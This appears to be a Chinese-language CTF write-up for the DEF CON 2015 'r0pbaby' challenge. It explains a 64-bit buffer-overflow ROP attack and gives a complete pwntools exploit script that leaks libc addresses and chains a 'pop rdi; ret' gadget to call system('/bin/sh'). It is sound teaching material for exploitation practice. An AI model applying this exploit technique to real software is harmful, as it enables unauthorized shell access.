 ```yaml
---
title: '''Defcon-2015-Qualifier-r0pbaby'''
date: 2018-03-17 18:11:32


tags: pwn
---
```

64位需要rdi传参，有PIE保护不能使用程序中的gadget，此处可以从libc中找   
   
buf的大小是8，会造成缓冲区溢出   
解题思路  
1.找到一个gadget RDI  
2.找到 `/bin/sh`地址   
3.找到 `system` 函数地址  
查找 gadget   
`ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"`  
查找 /bin/sh 字符串  
`strings -a -tx /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"`


```
from pwn import *
elf = ELF('r0pbaby')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = process('./r0pbaby')
sh = next(libc.search('/bin/sh'))
sys_offset = libc.symbols['system']
rdi_offset = 0x000000000002144f

def getFun(fun):
    io.recvuntil("4) Exit\n:")
    io.sendline('2')
    io.recvuntil("Enter symbol:")
    io.sendline(fun)
    msg = io.recvuntil("4) Exit\n: ")
    offset = msg.find(":")
    offset2 = msg.find("\n")
    addr = msg[offset+2:offset2]
    return long(addr,16)

sys_addr = getFun('system') 
sh_addr = sys_addr-sys_offset + sh 
rdi_addr = sys_addr - sys_offset+rdi_offset

payload = 'a'*8+p64(rdi_addr)+p64(sh_addr)+p64(sys_addr)
io.recv()
io.sendline('3')
io.recv()
io.sendline(str(len(payload)))
io.sendline(payload)
io.recvuntil("Bad choice.\n")   
io.interactive()
```
总结：简单的调用 system + “bin/sh” 通过寄存器 gadget “pop rdi;ret “传参
